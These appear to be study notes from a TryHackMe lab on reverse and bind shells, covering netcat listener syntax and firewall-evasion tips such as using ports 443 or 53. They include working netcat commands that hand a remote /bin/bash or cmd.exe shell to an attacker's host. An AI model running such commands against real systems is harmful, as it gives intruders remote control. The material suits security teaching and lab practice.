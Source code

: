 - **Reverse shells** are when the target is forced to execute code that connects _back_ to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a _listener_ which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.
- **Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

```
### ------------------ reverse shell
# attacking machine 
sudo nc -nlvp 443

# target 
nc <local IP> <port> -e /bin/bash

### ------------------ bind shell
# attacking machine
nc MACHINE_IP <port>

# target
nc -nlvp <port> -e "cmd.exe"
```



## netcat 

_Reverse Shells_

In the previous task we saw that reverse shells require shellcode and a listener. There are _many_ ways to execute a shell, so we'll start by looking at listeners.

The syntax for starting a netcat listener using Linux is this:

```
nc -lvnp <port-number>

-l    tell netcat that this will be a listener
-v    request a verbose output
-n    tells netcat not to resolve host names or use DNS. 
-p    the port specification will follow.

Be aware that if you choose to use a port below 1024, you will need to use `sudo` when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

sudo nc -nlvp 443


## bind shell
nc <target IP> <port>
```
